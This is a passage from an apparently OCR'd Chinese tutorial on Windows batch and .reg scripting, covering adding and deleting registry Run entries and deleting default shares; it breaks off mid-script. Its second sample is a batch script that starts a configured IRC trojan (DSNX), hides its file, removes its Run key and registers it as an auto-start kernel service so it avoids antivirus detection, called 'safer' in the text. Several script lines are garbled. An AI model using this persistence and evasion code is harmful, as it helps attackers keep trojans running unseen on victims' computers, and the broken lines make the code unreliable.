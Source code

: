 我们首先来说说删除一个项目名称,我们创建一个如下的文件:  
Windows Registry Editor Version 5.00  
[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]  
"Ex4rch"=-  
执行该脚本,[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]下的"Ex4rch"就被删除了;  
我们再看看删除一个子项,我们创建一个如下的脚本:  
Windows Registry Editor Version 5.00  
[-HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]  
执行该脚本,[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]就已经被删除了。  
相信看到这里,.reg文件你基本已经掌握了。那么现在的目标就是用批处理来创建特定内容的.reg文件了,记得我们前面说道的利用重定向符号可以很容易
地创建特定类型的文件。 

samlpe1:如上面的那个例子,如想生成如下注册表文件  

Windows Registry Editor Version 5.00  
[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]  
"Invader"="Ex4rch"  
"door"=hex:255  
"Autodos"=dword:000000128  
只需要这样:  
@echo Windows Registry Editor Version 5.00>>Sample.reg  
@echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]>Sample.reg  
@echo "Invader"="Ex4rch">>Sample.reg  
@echo "door"=5>>C://WINNT//system32//door.exe>>Sample.reg  
@echo "Autodos"=dword:02>>Sample.reg  
samlpe2:  

我们现在在使用一些比较老的木马时,可能会在注册表的[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run(Runonce、
Runservices、Runexec)]下生成一个键值用来实现木马的自启动.但是这样很容易暴露木马程序的路径,从而导致木马被查杀,相对地若是将木马程序注册
为系统服务则相对安全一些.下面以配置好地IRC木马DSNX为例(名为windrv32.exe)  

@start windrv32.exe  
@attrib +h +r windrv32.exe  
@echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run] >>patch.dll  
@echo "windsnx "=- >>patch.dll  
@sc.exe create Windriversrv type= kernel start= auto displayname= WindowsDriver binpath= c:/winnt/system32/windrv32.exe  
@regedit /s patch.dll  
@delete patch.dll  
@REM [删除DSNXDE在注册表中的启动项,用sc.exe将之注册为系统关键性服务的同时将其属性设为隐藏和只读,并config为自启动]  
@REM 这样不是更安全^_^.  

##六.精彩实例放送。  

###1.删除win2k/xp系统默认共享的批处理  

```
----- cut here then save as .bat or .cmd file ---------  
@echo preparing to delete all the default shares.when ready pres any key.  
@pause  
@echo off  
:Rem check parameters if null show usage.  
if {%1}=={} goto :Usage  
:Rem code start.  
echo.  
echo ------------------------------------------------------  
echo.  
echo Now deleting all the default shares.  
echo.  
net share %1$ /delete  
net share %2$ /delete  
net share %3$ /delete  
net share %4$ /delete  
net share %5$ /delete  
net share %6$ /delete  
net share %7$ /delete  
net share %8$ /delete  
```